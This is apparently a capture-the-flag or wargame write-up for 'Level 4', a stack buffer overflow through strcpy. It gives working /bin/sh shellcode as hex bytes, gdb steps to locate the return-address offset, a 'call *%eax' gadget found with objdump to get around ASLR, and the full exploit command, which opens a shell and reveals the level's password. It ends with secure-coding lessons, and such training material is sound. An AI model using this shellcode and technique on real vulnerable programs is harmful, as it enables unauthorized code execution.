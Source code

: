 ## Level 4: avoid unsafe library functions

The source code of this level is surprisingly simple:
```
void fun(char *str) {
  char buf[1024];
  strcpy(buf, str);
}

int main(int argc, char **argv) {
  // ... 
  fun(argv[1]);
  // ... 
}
```

The problem is obvious:
`strcpy` is unsafe,
as it doesn't check if the destination array has enough space to store the source array.
We can overwrite the memory area beyond `buf` using a long command line argument.

If you recall from the previous challenge,
the return address is stored on the stack after local variables.
By writing past the end of `buf`,
we can overwrite the return address,
so that when the function exits,
the execution will jump to where we want,
instead of the real next instruction.

In the previous challenge we could jump to the insecure function `run`.
In this program however,
we don't have such easy target.
On the other hand,
we can bring insecure code inside,
using the input string.
We could inject what is commonly called a *shellcode*:
a small piece of binary code that executes `/bin/sh`.

Implementing such shellcode is beyond the scope of this article.
If you're interested,
it's thoroughly explained in the Smash The Stack article[5].
Essentially it's a modified version of a simple C program like this:
```
#include <stdio.h>

void main() {
   char *name[2];

   name[0] = "/bin/sh";
   name[1] = NULL;
   execve(name[0], name, NULL);
}
```
Writing shellcode is not easy.
After compiling the above program,
there is more work to do,
such as rewriting assembly instructions that use `NULL` values,
as `strcpy` won't copy anything beyond the first `NULL`.
For our purposes,
we can take the finished shellcode from the article,
and for convenience, let's save it in a shell variable:
```
EGG=$(printf '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')
```
Next,
we need to find the exact location of the return address.
The content of the stack will look something like this when we are inside `fun`:
```
0x0000      content of the local variable buf (1024 bytes)
0x0400+?    the return address
```
That is,
the return address should be a few bytes after the end of `buf`.
We can find the right position using `gdb`.
When we overwrite the return address with something invalid,
`gdb` will print the address it could not jump to.
We can use this to guess the right location.
We know that the size of `buf` is 1024,
so let's run the program with a longer string:
```
$ gdb /levels/level04/level04
(gdb) run $(python -c 'print "A" * 1100')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1100')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```
We have successfully overwritten the return address with "A"s.
Let's try another string,
something that will help us pinpoint the correct position:
```
(gdb) run $(python -c 'print "A" * 1024 + "abcdefghijklmnopqrstuvwxyz"')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1024 + "abcdefghijklmnopqrstuvwxyz"')

Program received signal SIGSEGV, Segmentation fault.
0x706f6e6d in ?? ()
```
That looks within our "abc..." sequence.
Let's check the ASCII codes to find the exact location:
```
$ echo abcdefghijklmnopqrstuvwxyz | hexdump -C
00000000  61 62 63 64 65 66 67 68  69 6a 6b 6c 6d 6e 6f 70  |abcdefghijklmnop|
00000010  71 72 73 74 75 76 77 78  79 7a 0a                 |qrstuvwxyz.|
0000001b
```
Since `m=6d n=6e o=6f p=70`,
the return address is in the place of the letters `mnop`.
As there are 12 letters before "m",
we can calculate the target length is 1024 + 12 = 1036.
Let's verify with one last test in `gdb`:
```
(gdb) run $(python -c 'print "A" * 1036 + "BBBB"')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1036 + "BBBB"')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```
If we put the shellcode at the beginning of the buffer,
then our input string will be in this form:
```
SSSSSSSS PPPPPPPPPPPPPPPPPPPPPP AAAA
```
Where `S` indicate the shellcode,
`P` the padding, and `A` the jump address.
We calculated the length of `S + P = 1036`,
to know the length of `P` alone we must find the length of `S`:
```
$ printf $EGG | wc -c
45
```
Thus, the length of the padding should be `1036 - 45 = 991` characters.

The only thing missing is the jump address.
We want to jump to the address of `buf`,
but we cannot really know that.
In the past,
the stack used to be at the same address in all programs,
which was easy to exploit.
Today,
thanks to *Address Space Layout Randomization (ASLR)* used in modern operating systems,
the start address of the stack is randomized,
making it extremely difficult to guess the right location.

There is something else we can try.
On 32-bit x86 processors,
a function that returns a pointer value places its result in register `%eax`.
The result of `strcpy` is the address of the destination,
in our case `buf`.
And since `strcpy` is the last line in the function,
there is nothing else to change the content of `%eax` before the function exits.
Finally,
a `call *%eax` instruction executes the code at the address stored in `%eax`,
so if there is any such instruction inside the code,
we can use its address:
```
$ objdump -d /levels/level04/level04 | grep call.*eax
 8048488:   ff 14 85 1c 9f 04 08    call   *0x8049f1c(,%eax,4)
 80484cf:   ff d0                   call   *%eax
 80485fb:   ff d0                   call   *%eax
```
We can use either `0x080484cf` or `0x080485fb` as the address:
```
$ /levels/level04/level04 $EGG$(python -c 'print "A" * 991')$(printf '\xcf\x84\x04\x08')
/levels/level04 $ cat /home/level04/.password 
paegeiqu
```

## Lessons to learn

- Don't use unsafe library functions like `strcpy`.
  Check the documentation, it usually warns of security issues.

- Always make sure that arrays cannot be written beyond their boundaries.

- Always validate user input, and set reasonable limits to length.

